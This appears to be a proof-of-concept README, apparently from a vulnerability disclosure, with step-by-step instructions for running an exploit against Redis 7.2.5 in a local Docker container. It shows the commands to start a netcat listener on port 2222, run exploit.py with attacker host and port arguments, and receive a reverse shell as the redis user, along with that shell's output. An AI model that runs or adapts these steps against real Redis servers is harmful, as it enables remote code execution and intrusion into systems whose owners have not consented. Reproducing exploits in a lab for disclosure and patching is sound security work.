 To run the exploit please extract the attached ZIP and follow these steps on Linux:

1. Set up a virtualenv/install the Redis client 

```
$ python3 -m venv .venv
$ source .venv/bin/activate
$ pip install -r requirements.txt
```

2. In another terminal, run the Redis docker image
	- Or build from source and run on a support platform
		- The exploit has been tested and works on Fedora 40/Ubuntu 24.04

```
$ docker run -p6379:6379 redis:7.2.5
```

3. Get the ip address of your host on the docker network

```
$ ifconfig
 
docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:53ff:fecc:6e16  prefixlen 64  scopeid 0x20<link>
        ether 02:42:53:cc:6e:16  txqueuelen 0  (Ethernet)
        RX packets 69  bytes 4268 (4.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 133  bytes 269173 (262.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

4. In another terminal, run an netcat listener:

```
$ nc -nlvp 2222
```

5. Run the exploit:
	-  Replace `lhost` with your docker network ip address

```
$ python3 exploit.py --lhost 172.17.0.1 --lport 2222 --rhost localhost
```

6. You should receive a connection

```
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:2222
Ncat: Listening on 0.0.0.0:2222
Ncat: Connection from 172.17.0.2:36518.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
redis@4d1537f2dd4e:/data$

```
